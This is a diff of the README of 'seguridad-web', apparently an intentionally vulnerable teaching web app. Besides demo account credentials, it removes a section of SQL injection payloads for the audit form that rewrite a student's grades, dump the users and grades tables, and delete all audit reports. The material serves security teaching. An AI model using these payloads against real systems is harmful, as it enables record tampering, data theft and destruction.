

Before and after one commit to fpesce27/seguridad-web, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -59,36 +77,6 @@ python app.py
 - Monitor: monitor/password
 - Estudiante: Juan/password
 - Auditor: auditor1/password
-
-## Ejemplos de Explotación
-
-### SQL Injection en Auditoría
-1. Iniciar sesión como auditor1/password
-2. En el formulario de auditoría, usar el payload:
-```sql
-'); UPDATE grades SET grade = 10 WHERE student = 'Juan'; --
-```
-3. Esto modificará todas las notas de Juan a 10
-
-### Ver Todas las Notas
-```sql
-'); SELECT * FROM grades; --
-```
-
-### Ver Todos los Usuarios
-```sql
-'); SELECT * FROM users; --
-```
-
-### Modificar Notas de Otros Estudiantes
-```sql
-'); UPDATE grades SET grade = 10 WHERE student = 'Juan'; --
-```
-
-### Eliminar Todos los Reportes
-```sql
-'); DELETE FROM audit_reports; --
-```
 
 ## Estructura de la Base de Datos
 
````
Also changed, not shown: other parts of README.md (+72 -32 lines).
